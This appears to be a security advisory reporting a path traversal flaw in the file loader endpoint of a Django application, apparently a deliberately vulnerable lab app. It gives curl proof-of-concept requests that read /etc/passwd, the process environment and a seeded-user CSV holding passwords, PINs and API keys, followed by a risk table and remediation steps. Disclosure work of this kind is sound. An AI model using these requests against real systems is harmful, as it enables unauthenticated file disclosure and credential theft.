



# Description

Path traversal / arbitrary file read (CWE-22) in the API loader view (`Api/views.py:3875-3886`).

The loader relies on an incomplete deny-list and does not enforce proper path canonicalisation or directory confinement. The `file` parameter is passed to `os.path.join('/app/', filename)`, so an absolute path discards the `/app/` prefix and `../` sequences escape it. The deny-list (`_LOADER_DENIED`, `Api/views.py:3863-3872`) is a case-insensitive substring match that blocks `.py`, `.sqlite3`, `.db`, `.env`, `.git`, `.yml`/`.yaml`, `.cfg`, `.ini`, `.toml`, `requirements`, `dockerfile` and similar, but any other file readable by `appuser` is returned as `text/plain`. Blocked or missing files return `404 File not found` (including the default `welcome.txt`, which does not exist in the image).

The view does not implement an explicit authentication check. Unauthenticated file disclosure exposes system information, internal application configuration and the seeded-user data file `setup/users.csv`, which contains cleartext passwords, bank PINs and API keys. Reads are limited by filesystem permissions (`/etc/shadow` returns 404), the deny-list and text decoding.

# Exploitation

1. Request an absolute path with no login:
   ```
   GET /api/loader/?file=/etc/passwd
   ```
2. Read the process environment to harvest internal config:
   ```
   GET /api/loader/?file=/proc/self/environ
   ```
   reveals `DJANGO_SETTINGS_MODULE`, `OLLAMA_BASE_URL=http://ollama:11434`, container hostname, etc. No secret (e.g. `SECRET_KEY`) is present in the environment.
3. Read the seeded-user file, which is not covered by the deny-list:
   ```
   GET /api/loader/?file=setup/users.csv
   ```
   returns every seeded user's cleartext password, bank PIN and API key.

# PoC

**Step 1 — read `/etc/passwd` (unauthenticated):**

```bash
curl -s "http://<TARGET>/api/loader/?file=/etc/passwd"
# root:x:0:0:root:/root:/bin/bash
# ...
# appuser:x:1000:1000::/home/appuser:/bin/sh
```



**Step 2 — internal configuration disclosure:**

```bash
curl -s "http://<TARGET>/api/loader/?file=/proc/self/environ" | tr '\0' '\n'
# DJANGO_SETTINGS_MODULE=djangoWocshack_5.settings.production
# OLLAMA_BASE_URL=http://ollama:11434
# OLLAMA_MODEL=gemma3:1b
# HOSTNAME=0cc8106742ea
```



**Step 3 — relative traversal also works:**

```bash
curl -s "http://<TARGET>/api/loader/?file=../../../etc/passwd"   # same output as Step 1
```



**Step 4 — seeded-user credentials (unauthenticated):**

```bash
curl -s "http://<TARGET>/api/loader/?file=setup/users.csv"
# username,email,first_name,last_name,password,biography,bank_pin,initial_balance,api_key
# johndoe,john.doe@tbox.traced,John,Doe,Tr@c3d!7BxN#m9Kw2YpL,...,123456,...,<68-char API key>
# janedoe,jane.doe@tbox.traced,Jane,Doe,Tr@c3d!7BxN#m9Kw2YpL,...,234567,...,<68-char API key>
# ... (14 users)
```

The passwords log in to the main application and the webmail, the PINs are the users' bank PINs (`setup/setup_database.py:274`), and the API keys authenticate to `/api/` as each user (`GET /api/shop/cart/` returns `401` without a key and `200` with `X-API-Key: <leaked key>`). Other readable files include `/proc/self/cmdline` (`python manage.py runserver --insecure 0.0.0.0:8000`) and `Chatbot/data/knowledge_base.json`; `.py`, `.sqlite3` and `requirements.txt` paths are blocked by the deny-list.

Verified against a fresh local instance (`docker compose up`, Django on `localhost:8000`): Steps 1–4 return `200 text/plain` without a session cookie.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthenticated disclosure of process-readable text files not matched by the deny-list: system information, internal configuration, and the cleartext passwords, bank PINs and API keys of all seeded users (`setup/users.csv`). |
| Integrity | Indirect but direct to exploit — the leaked credentials, PINs and API keys allow logging in and acting as any seeded user (the CSV PINs are the bank PINs set at seeding, `setup/setup_database.py:274`). |
| Availability | None directly demonstrated. |

Overall severity: **High** — unauthenticated file disclosure exposes system information, internal configuration and working credentials (passwords, bank PINs, API keys) for every seeded user.

# Remediation

1. **Allow-list filenames** or resolve server-controlled resource identifiers instead of accepting arbitrary filesystem paths.
2. **Canonicalise and validate the final path** to ensure that it remains within the intended base directory.
3. **Reject invalid or unauthorized paths** before opening files.
4. **Enforce appropriate authentication and authorization** according to the intended access policy.
5. **Apply least-privilege filesystem permissions** to limit the application's access to sensitive files, and **remove seed data such as `setup/users.csv` from the runtime image** (or make it unreadable by `appuser`) once the database is initialised.
6. **Add regression tests** covering path validation, directory confinement and unauthorized file access.

# Author
Hackrapovic
 